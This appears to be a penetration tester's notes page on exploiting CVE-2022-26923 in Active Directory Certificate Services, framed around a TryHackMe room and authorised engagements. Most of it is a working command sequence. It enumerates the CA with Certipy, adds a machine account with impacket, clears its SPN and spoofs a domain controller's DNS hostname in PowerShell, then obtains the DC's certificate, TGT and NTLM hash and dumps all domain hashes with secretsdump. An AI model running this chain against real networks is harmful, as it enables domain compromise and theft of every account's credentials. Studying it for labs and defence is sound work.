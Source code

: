 # Active Directory Certificate Services (ADCS) CVE-2022-26923

This attack relies on ADCS being available within the internal active directory network you are attempting to compromise. Furthermore, a low privieged domain user account will be required for the steps in the attack path.

TryHackMe has a room based on this vulnerability that can be accessed here https://tryhackme.com/room/cve202226923. I'd recommend practicing within their environment _before_ using this on a penetest engagement.

With the low privileged user credentials, search for the ADCS server within the active directory domain. This can be done by running `certutil.exe` within Microsoft Windows, or by using `Certipy.py`, which is available from https://github.com/ly4k/Certipy. Certipy requires Python 3 and also impacket to be installed. If this attack is ran from a Kali Linux machine attached to the network, the dependencies should come preinstalled.

*Note that ADCS does not have to be running on the domain controller, and quite often it will be ran on its own server instance*

Use certipy to discover the details of the ADCS server within the domain. The following command will list the details of the Certificate Authority "CA" within the AD environment, along with what certificate templates are available:

```shell
certipy.py find 'domain.local/username:password@dc1.adcs-server.domain.local'
```

Furthermore, if you have bloodhound output for the current domain, the following query can be used to list all certificate templates:

```
MATCH (n:GPO) WHERE n.type = 'Certificate Template' and n.Enabled = TRUE RETURN n
```

Now a certificate can be generated for the current user using Certipy and the "User" template. This will then download a ".pfx" certificate file. The name of the CA can be found from the output of the `Certipy.py find` command or `certutil.exe`

```shell
certipy.py req 'domain.local/username:password@dc1.adcs-server.domain.local' -ca "Name Of CA" -template user
```

Now a TGT can be obtained for the user using Certipy. The following command will generate a CCACHE file containing a Kerberos TGT for the user "username". THe command will output the CCACHE file, along with the NTLM hash for the user.

```shell
certipy.py auth -pfx username.pfx
```

Now impacket can be used to add a new computer object to the active directory domain. In a default active directory configuration, a standard user can add up to 10 machine accounts. Providing the user can add a machine account to the domain, `addcomputer.py` can be used:

```shell
addcomputer.py 'domain.local/username:password' -method LDAPS -computer-name NEW-PC -computer-password Password123!`
```

Now with the new computer added to the domain, a machine certificate can be requested from the ADCS server:

```shell
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```

The certificate will download as a ".pfx" file with the `NEW-PC.pfx`. Now a TGT can be created for the machine account, which will output a CCACHE file:

```shell
certipy auth -pfx NEW-PC.pfx
```

On a Windows host on the target environment, the following commands can now be ran in powershell to make modifications to the DNS hostname. First look at the dnshostname and service princlpal name:

```powershell
Get-ADComputer NEW-PC -properties dnshostname,serviceprincipalname
```

First, delete the serviceprincipalname using the following powershell command:

```powershell
Set-ADComputer NEW-PC -ServicePrincipalName @{}
```

Rename the DNS hostname to a hostname that belongs to the domain controller within the environment:

```powershell
Set-ADComputer NEW-PC -DnsHostName DC1.domain.local
```

Now certipy can be ran again to request a certificate for the same machine again, noting that the SPN has been removed and the DNS host name now matches that of a domain controller within the environment:

```shell
certipy.py req 'domain.local/NEW-PC$:Password123!@dc1.adcs-server.domain.local' -ca "Name Of CA" -template Machine'
```
The certificate output will contain the same properties of the domain controller. A TGT can now be created using certipy, and will save the output as `DC1.domain.local.CCACHE`. Furthermore, the output will contain the NTLM hash of DC1$ machine account:

```shell
certipy.py auth -pfx DC1.pfx
```

With the NTLM and TGT to authenticate as DC1$, it would be possible to use Impackets secretsdump.py tool to dump all hashes from the domain, either by supplying the CCACHE file as the `export KRB5CCACHE=DC1.ccache` and selecting kerberos authentication, or just by supplying the NTLM hash of the machine account.



